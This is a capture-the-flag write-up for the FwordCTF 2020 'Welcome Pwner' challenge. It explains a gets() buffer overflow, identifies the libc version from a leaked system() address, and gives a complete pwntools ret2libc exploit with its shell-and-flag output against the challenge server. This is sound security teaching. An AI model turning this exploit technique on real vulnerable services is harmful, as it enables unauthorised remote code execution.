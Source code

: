 # FwordCTF 2020

## Welcome Pwner

> 374  
>  
> something to warm you up.  
>  
> `nc 54.210.217.206 1240`  
>  
> Author : haflout  
>  
> [`Molotov`](molotov)

Tags: _pwn_ _x86_ _remote-shell_ _bof_ _rop_

## Summary

Beginner BOF with `system` leaked, however user must find libc version
themselves.

## Analysis

### Checksec

```  
   Arch:     i386-32-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
```

Most mitigations in place, however no stack canary; BOF -> ROP.

  
### Decompile with Ghidra

```c  
undefined4 vuln(void)  
{  
 char local_20 [24];  
  
 printf("%x\n",system);  
 puts("Input : ");  
 gets(local_20);  
 return 0;  
}  
```

Not a lot here; `system` address leaked with `gets` vulnerability.  `local_20`
is `0x20` bytes from the return address on the stack.  Basic BOF.

Without knowing the version of libc we cannot pass the location of `/bin/sh`
to `system`;  identifying that however is simple with [libc-
database](https://github.com/niklasb/libc-database):

```  
# nc 54.210.217.206 1240  
f7de68b0  
Input :  
```

Take the last 3 nibbles and pass to `./find`:

```  
# ./find system 8b0 | grep _i386  
archive-glibc (id libc6_2.30-0ubuntu2.1_i386)  
ubuntu-eoan-i386-libc6 (id libc6_2.30-0ubuntu2.2_i386)  
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.30-0ubuntu2_i386.deb
(id libc6_2.30-0ubuntu2_i386)  
```

Multiple hits.  I went with `libc6_2.30-0ubuntu2_i386` and it worked out just
fine.  If it had failed, then there was only two other options to try.

## Exploit

This code assumes that `libc-database` is located in the same directory (I
just sym linked it) as `exploit.py`.

From within the `libc-database` type:

```  
# ./download libc6_2.30-0ubuntu2_i386  
```

This will download libc, ld, et al.

### Setup

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./molotov')  
context.log_level = 'INFO'  
context.log_file = 'log.log'

'''  
# local libc  
libc = binary.libc  
p = process(binary.path)  
'''  
# task libc  
libid = 'libc6_2.30-0ubuntu2_i386'  
libpath = os.getcwd() + '/libc-database/libs/' + libid + '/'  
ld = ELF(libpath + 'ld-2.30.so')  
libc = ELF(libpath + 'libc-2.30.so')  
#p = process([ld.path, binary.path], env={'LD_LIBRARY_PATH': libpath})  
p = remote('54.210.217.206', 1240)  
#'''  
```

The first few lines should not require much of an explanation, except perhaps
the `binary = context.binary = ELF('./molotov')` statement.  The
`context.binary` there in the middle will set the context (arch, os, etc...)
so that `rop`, `asm`, `constants`, etc... statements produce the correct
results.

The next section (selected by placing `#` at the first or last `'''`)
determines if you want to use your local libc or the challenge libc.  For most
easy challenges I dev/test with the local libc and then just test with the
task libc.  However for some, especially when pulling addresses from the
stack, I've found inconsistencies between my local libc is vs. the task libc.
Often time is wasted having to refactor or completely resolve for the task
libc.  The second block handles launching a challenge binary with the intended
libs.  And `gdb` works just fine with this as well.

### BOF, ROP, Shell

```python  
_ = p.recvline()  
system = int(_,16)  
log.info('system: ' + hex(system))  
libc.address = system - libc.sym.system  
log.info('baselibc: ' + hex(libc.address))

payload  = 0x20 * b'A'  
payload += p32(libc.sym.system)  
payload += 4 * b'B'  
payload += p32(libc.search(b'/bin/sh').__next__())

p.sendlineafter('Input : \n',payload)  
p.interactive()  
```

With the correct libc in hand, just capture the system address, compute the
base of libc, then setup your ROP chain after padding with `0x20` bytes.

Output:

```bash  
# ./exploit.py  
[*] '/pwd/datajerk/fwordctf2020/welcome_pwner/molotov'  
   Arch:     i386-32-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[*] '/pwd/datajerk/fwordctf2020/welcome_pwner/libc-
database/libs/libc6_2.30-0ubuntu2_i386/ld-2.30.so'  
   Arch:     i386-32-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[*] '/pwd/datajerk/fwordctf2020/welcome_pwner/libc-
database/libs/libc6_2.30-0ubuntu2_i386/libc-2.30.so'  
   Arch:     i386-32-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[+] Opening connection to 54.210.217.206 on port 1240: Done  
[*] system: 0xf7dac8b0  
[*] baselibc: 0xf7d67000  
[*] Switching to interactive mode  
$ id  
uid=1000(fword) gid=1000(fword) groups=1000(fword)  
$ ls -l  
total 32  
-rw-r--r-- 1 root root    24 Aug 29 14:25 flag.txt  
-rwxr-xr-x 1 root root  7492 Aug 29 14:25 molotov  
-rwxr-xr-x 1 root root 18744 Aug 29 14:25 ynetd  
$ cat flag.txt  
FwordCTF{good_j0b_pwn3r}  
```  

Original writeup (https://github.com/datajerk/ctf-write-
ups/tree/master/fwordctf2020/welcome_pwner).
